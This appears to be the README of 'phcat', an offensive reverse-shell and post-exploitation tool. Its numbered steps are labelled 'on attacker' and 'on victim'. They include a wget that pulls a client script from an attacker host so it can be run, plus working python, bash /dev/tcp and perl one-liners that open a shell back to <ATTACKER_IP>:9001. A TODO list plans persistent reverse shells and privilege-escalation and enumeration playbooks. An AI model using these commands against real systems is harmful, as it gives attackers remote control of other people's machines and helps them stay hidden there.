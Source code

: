 # Screenshots
![phcat screenshot 1](/screenshots/screenshot1.png)
![phcat screenshot 2](/screenshots/screenshot2.png)
![phcat screenshot 3](/screenshots/screenshot3.png)

# Assumptions
- python3 exists on the server

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available  
  - (Low) Implement "persisting" looping reverse shell install  
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc  
    - (Low) Have menu items show if an error occured of if the playbook results are already available  
    - (Low) Show details about found results and what steps to take next  
    - menu['show']['network']['all'] = function  
    - show enumerate. 
      [ ] 1. Check SUID binaries  
    - use enumerate 1  
    - show network.
      [ ] 1. Local IPv4s  
      [X] 2. Connected subnets  
      [ ] 3. Reachable online hosts  
    - show network 2  
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.  
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.  
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered  
- (Low) Better logging with colors and stuff!  
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.
